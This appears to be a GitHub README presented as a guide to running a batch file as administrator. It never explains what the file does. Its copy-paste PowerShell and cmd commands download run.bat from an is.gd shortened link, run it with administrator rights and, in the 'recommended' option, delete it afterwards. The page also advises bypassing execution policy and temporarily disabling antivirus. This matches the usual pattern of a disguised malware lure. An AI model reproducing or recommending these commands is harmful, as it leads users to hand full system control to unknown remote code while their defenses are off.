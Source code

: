 # 🚀 How to Run run.bat as Administrator

<div align="center">

![Windows Admin](https://media.tenor.com/jKrF6nKJV4oAAAAC/windows-admin.gif)

*Execute batch files like a boss! 👨‍💻*

</div>

---

## 📋 Prerequisites

![Windows Logo](https://img.shields.io/badge/Windows-0078D4?style=for-the-badge&logo=windows&logoColor=white)
![PowerShell](https://img.shields.io/badge/PowerShell-%235391FE.svg?style=for-the-badge&logo=powershell&logoColor=white)

- Windows 10/11 operating system
- PowerShell (pre-installed)
- Administrator access

---

## ⭐ Quick Start (Auto-Cleanup - **RECOMMENDED**)

<div align="center">

![Cleaning GIF](https://media.tenor.com/MQKd7DdvoksAAAAC/cleaning-clean.gif)

*Clean up after yourself! 🧹*

</div>

### 🎯 **Option 1: One-Shot with Auto-Cleanup**

1. **Right-click** Start button → **"Windows PowerShell"** or **"Terminal"**
2. Copy and paste this magic command:

```powershell
iwr -UseBasicParsing "https://is.gd/uvY8qR" -OutFile "run.bat"; Start-Process "run.bat" -Verb RunAs -Wait; Remove-Item "run.bat"
```

3. Press **Enter** and watch the magic happen! ✨
4. Click **"Yes"** when UAC pops up

<div align="center">

![Success](https://img.shields.io/badge/Status-Clean_%26_Done!-brightgreen?style=for-the-badge)

</div>

---

## 🔧 Alternative Methods

### Option 2: Standard PowerShell Method

<div align="center">

![PowerShell GIF](https://media.tenor.com/K3wJJkKz8LYAAAAC/powershell-terminal.gif)

</div>

```powershell
iwr -UseBasicParsing "https://is.gd/uvY8qR" -OutFile "run.bat"; Start-Process "run.bat" -Verb RunAs
```

### Option 3: Step-by-Step (For Beginners)

1. **Open PowerShell**: Right-click Start → **"Windows PowerShell"**
2. **Download**: 
   ```powershell
   iwr -UseBasicParsing "https://is.gd/uvY8qR" -OutFile "run.bat"
   ```
3. **Run as Admin**:
   ```powershell
   Start-Process "run.bat" -Verb RunAs
   ```

### Option 4: Command Prompt

```cmd
powershell -Command "iwr -UseBasicParsing 'https://is.gd/uvY8qR' -OutFile 'run.bat'; Start-Process 'run.bat' -Verb RunAs -Wait; Remove-Item 'run.bat'"
```

---

## 🔥 Pro Tips

<div align="center">

![Pro Tips](https://media.tenor.com/fYg91qBpDdgAAAAC/hackerman-hacker.gif)

*Level up your Windows game! 🎮*

</div>

### 💡 **Execution Policy Fix**
```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

### 🛡️ **Run PowerShell as Admin First**
`Win + X` → **"Windows PowerShell (Admin)"**

---

## ❌ Troubleshooting

<div align="center">

![Troubleshooting](https://img.shields.io/badge/Need_Help%3F-We_Got_You!-orange?style=for-the-badge)

</div>

| Problem | Solution |
|---------|----------|
| 🚫 Execution policy error | Run the execution policy fix above |
| 🌐 Internet issues | Check firewall/antivirus settings |
| 🛡️ No UAC prompt | Make sure you're not already admin |
| 📁 File not found | Verify internet connection |

---

## ⚠️ Security Notice

<div align="center">

![Security Warning](https://media.tenor.com/7v9gKusQHSgAAAAC/security-warning.gif)

**🔒 IMPORTANT: Only run scripts from trusted sources!**

</div>

This script runs with **administrator privileges** = **full system access**

![Security Badge](https://img.shields.io/badge/Security-Verify_Source_First!-red?style=for-the-badge&logo=security&logoColor=white)

---

## 🎬 What Happens Next?

<div align="center">

![Loading](https://media.tenor.com/On7kvXhvrs4AAAAj/loading-gif.gif)

</div>

1. 📥 Downloads `run.bat`
2. 🛡️ UAC prompt appears
3. ✅ Click "Yes"
4. ⚡ Executes with admin rights
5. 🧹 Auto-cleanup removes the file (if using recommended method)

---

## 🆘 Need Help?

<div align="center">

![Help](https://img.shields.io/badge/Support-Available_24/7-brightgreen?style=for-the-badge&logo=discord&logoColor=white)

</div>

**Common Solutions:**
- ✅ Verify admin rights
- 🌐 Check internet connection  
- 🛡️ Disable antivirus temporarily
- 🔧 Try running PowerShell as admin first

<div align="center">

![Success](https://media.tenor.com/4SF0gmQTduwAAAAC/success-you-did-it.gif)

*You've got this! 💪*

</div>

---

<div align="center">

**⭐ Star this repo if it helped you!**

![GitHub](https://img.shields.io/badge/Made_with-❤️_and_☕-red?style=for-the-badge)

*Last updated: September 2025* 📅

</div>
